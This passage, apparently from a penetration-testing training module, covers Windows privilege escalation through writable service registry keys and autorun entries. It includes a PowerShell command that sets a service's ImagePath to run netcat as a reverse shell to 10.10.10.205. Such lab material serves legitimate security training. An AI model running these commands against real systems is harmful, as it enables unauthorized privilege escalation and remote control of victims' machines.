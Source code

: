```cmd-session
C:\htb> accesschk.exe /accepteula "mrb3n" -kvuqsw hklm\System\CurrentControlSet\services

Accesschk v6.13 - Reports effective permissions for securable objects
Copyright ⌐ 2006-2020 Mark Russinovich
Sysinternals - www.sysinternals.com

RW HKLM\System\CurrentControlSet\services\ModelManagerService
        KEY_ALL_ACCESS

<SNIP> 
```

#### Changing ImagePath with PowerShell

We can abuse this using the PowerShell cmdlet `Set-ItemProperty` to change the `ImagePath` value, using a command such as:

```powershell-session
PS C:\htb> Set-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Services\ModelManagerService -Name "ImagePath" -Value "C:\Users\john\Downloads\nc.exe -e cmd.exe 10.10.10.205 443"
```

---

## Modifiable Registry Autorun Binary

#### Check Startup Programs

We can use WMIC to see what programs run at system startup. Suppose we have write permissions to the registry for a given binary or can overwrite a binary listed. In that case, we may be able to escalate privileges to another user the next time that the user logs in.

```powershell-session
PS C:\htb> Get-CimInstance Win32_StartupCommand | select Name, command, Location, User |fl

Name     : OneDrive
command  : "C:\Users\mrb3n\AppData\Local\Microsoft\OneDrive\OneDrive.exe" /background
Location : HKU\S-1-5-21-2374636737-2633833024-1808968233-1001\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
User     : WINLPE-WS01\mrb3n

Name     : Windscribe
command  : "C:\Program Files (x86)\Windscribe\Windscribe.exe" -os_restart
Location : HKU\S-1-5-21-2374636737-2633833024-1808968233-1001\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
User     : WINLPE-WS01\mrb3n

Name     : SecurityHealth
command  : %windir%\system32\SecurityHealthSystray.exe
Location : HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
User     : Public

Name     : VMware User Process
command  : "C:\Program Files\VMware\VMware Tools\vmtoolsd.exe" -n vmusr
Location : HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
User     : Public

Name     : VMware VM3DService Process
command  : "C:\WINDOWS\system32\vm3dservice.exe" -u
Location : HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
User     : Public
```

This [post](https://book.hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/privilege-escalation-with-autorun-binaries.html) and [this site](https://www.microsoftpressstore.com/articles/article.aspx?p=2762082&seqNum=2) detail many potential autorun locations on Windows systems.